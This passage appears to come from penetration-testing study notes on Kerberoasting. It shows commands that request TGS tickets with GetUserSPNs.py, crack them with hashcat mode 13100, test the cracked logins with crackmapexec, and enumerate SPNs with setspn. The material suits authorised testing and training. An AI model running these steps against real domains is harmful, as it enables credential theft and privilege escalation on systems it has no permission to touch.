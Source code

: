 #### Request TGS for a Specific User
```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request-user <SPN_USER>
```

#### Save TGS Ticket to File
```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USER> -request-user <SPN_USER> -outputfile <filename>
```

#### Offline Cracking with Hashcat
- Use hashcat mode 13100 for Kerberos 5 TGS-REP etype 23 hashes.

**Example:**
```bash
hashcat -m 13100 <tgs_ticket_file> /usr/share/wordlists/rockyou.txt
```

#### Post-Crack: Test Access
- Use cracked credentials to authenticate and escalate privileges.

**Example:**
```bash
crackmapexec smb <DC_IP> -u <cracked_user> -p <cracked_password>
```

**Note:** Not all cracked accounts will be privileged, but any access can be useful for further enumeration or attacks. Always report the risk, even if no privileged accounts are cracked.

---

## Kerberoasting from Windows

Kerberoasting can also be performed directly from a Windows host, using both built-in tools and advanced post-exploitation frameworks. This section covers both semi-manual and automated approaches, with practical steps, command examples, and real-world considerations for both attackers and defenders.

### Semi-Manual Method (Pre-Tool Era)

Before tools like Rubeus, Kerberoasting required a combination of built-in utilities and scripting. The process involves:

1. **Enumerating SPNs** (Service Principal Names) in the domain
2. **Requesting TGS tickets** for those SPNs
3. **Extracting tickets from memory**
4. **Cracking the tickets offline**

#### 1. Enumerating SPNs with `setspn.exe`
```shell
C:\htb> setspn.exe -Q */*
```
This command lists all SPNs in the domain. Focus on user accounts (not computer accounts) for Kerberoasting.
